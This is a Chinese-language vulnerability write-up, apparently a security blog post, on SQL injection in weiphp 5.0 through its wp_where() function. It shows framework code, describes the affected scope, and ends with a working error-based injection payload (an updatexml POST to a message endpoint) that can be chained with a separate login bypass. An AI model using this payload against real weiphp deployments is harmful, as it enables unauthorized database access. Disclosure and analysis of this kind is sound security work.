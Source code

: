 ```php

    $query->removeOption('limit');

    $bind = $query->getBind();

    if (!empty($options['fetch_sql'])) {
        // 获取实际执行的SQL语句
        return $this->getRealSql($sql, $bind);
    }

    // 事件回调
    $result = $query->trigger('before_find');

    if (!$result) {
        // 执行查询
        $resultSet = $this->query($sql, $bind, $options['master'], $options['fetch_pdo']);

        if ($resultSet instanceof \PDOStatement) {
            // 返回PDOStatement对象
            return $resultSet;
        }

        $result = isset($resultSet[0]) ? $resultSet[0] : null;
    }
    ...

        return $result;
}
```

![20191211104045](https://y4er.com/img/uploads/20191211104045.png)

在`$this->builder->select($query)`生成SQL语句，带入恶意SQL

![20191211104703](https://y4er.com/img/uploads/20191211104703.png)

造成注入。

![20191211104738](https://y4er.com/img/uploads/20191211104738.png)

## 影响范围

2019/12/11 weiphp5.0官网最新版

所有使用了 `wp_where()` 函数并且参数可控的SQL查询均受到影响，前台后台均存在注入。

![20191211110406](https://y4er.com/img/uploads/20191211110406.png)

需要登录的点可以配合之前写的《weiphp多数模块存在未授权访问》来绕过登录进行注入。

比如

```
http://php.local/public/index.php/weixin/message/_send_by_group
POST:group_id[0]=exp&group_id[1]=) and updatexml(1,concat(0x7e,user(),0x7e),1) -- 
```

![20191211105553](https://y4er.com/img/uploads/20191211105553.png)

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**